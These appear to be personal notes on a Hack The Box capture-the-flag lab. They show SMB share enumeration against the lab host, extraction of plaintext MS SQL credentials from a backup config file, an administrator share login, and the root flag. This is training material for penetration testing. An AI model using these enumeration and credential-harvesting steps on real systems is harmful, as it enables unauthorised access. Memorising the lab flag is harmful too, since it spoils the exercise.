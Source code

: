 # Archetype (10.10.10.27) SMB
[[archetype (10.10.10.27)]]
## Summary
- Found root flag
- Found sql_svc credentials
## Procedure
1. List
	```
	tyler@tyler-ops:~$ smbclient -L 10.10.10.27
	Enter WORKGROUP\tyler's password: <empty>
	
		Sharename       Type      Comment
		---------       ----      -------
		ADMIN$          Disk      Remote Admin
		backups         Disk
		C$              Disk      Default share
		IPC$            IPC       Remote IPC
	SMB1 disabled -- no workgroup available
	```
	![[Pasted image 20210816141309.png]]
2. //10.10.10.27/backups/
	```
	tyler@tyler-ops:~$ smbclient //10.10.10.27/backups
	Enter WORKGROUP\tyler's password: <empty>
	Try "help" to get a list of possible commands.
	smb: \> ls
	  .                                   D        0  Mon Jan 20 04:20:57 2020
	  ..                                  D        0  Mon Jan 20 04:20:57 2020
	  prod.dtsConfig                     AR      609  Mon Jan 20 04:23:02 2020

					10328063 blocks of size 4096. 8258776 blocks available
	```
	![[Pasted image 20210816141648.png]]
	- Also reachable with sql_svc account
3. //10.10.10.27/backups/prod.dtsConfig
		- Extracted MS SQL credentials:
			- User: `ARCHETYPE\sql_svc`
			- Pass: `M3g4c0rp123`
	```
	<ConfiguredValue>
	Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;	
	</ConfiguredValue>
	```
	![[Pasted image 20210816144800.png]]
4. //10.10.10.27/ADMIN$/
	- Inaccessible with guest account
5. //10.10.10.27/C$/
	- Inaccessible with guest account
6. //10.10.10.27/IPC$/
	- Empty with guest account
	- Empty with sql_svc account
7. //10.10.10.27/C$/
	```
	tyler@ubuntu:~/Documents/learn/htb/htb-starting-point$ smbclient -W ARCHTYPE -U administrator \\\\10.10.10.27\\C$
	Enter ARCHTYPE\administrator's password:
	Try "help" to get a list of possible commands.
	smb: \> ls
	  backups                             D        0  Mon Jan 20 04:20:57 2020
	  Documents and Settings            DHS        0  Sun Jan 19 22:39:33 2020
	  pagefile.sys                      AHS 402653184  Tue Aug 17 08:05:37 2021
	  PerfLogs                            D        0  Sat Sep 15 00:12:32 2018
	  Program Files                      DR        0  Sun Jan 19 15:09:15 2020
	  Program Files (x86)                 D        0  Sun Jan 19 15:08:49 2020
	  ProgramData                        DH        0  Sun Jan 19 22:49:11 2020
	  Recovery                          DHS        0  Sun Jan 19 22:39:33 2020
	  System Volume Information         DHS        0  Sun Jan 19 22:38:58 2020
	  Users                              DR        0  Sun Jan 19 22:39:46 2020
	  Windows                             D        0  Sun Jan 19 15:08:24 2020

					10328063 blocks of size 4096. 8247829 blocks available
	smb: \>
	```
	![[Pasted image 20210817075007.png]]
	- Logged in with administrator account
8. //10.10.10.27/C$/Users/Administrator/Desktop/root.txt
	- Found root.txt which contains root flag
	- root flag: `b91ccec3305e98240082d4474b848528`

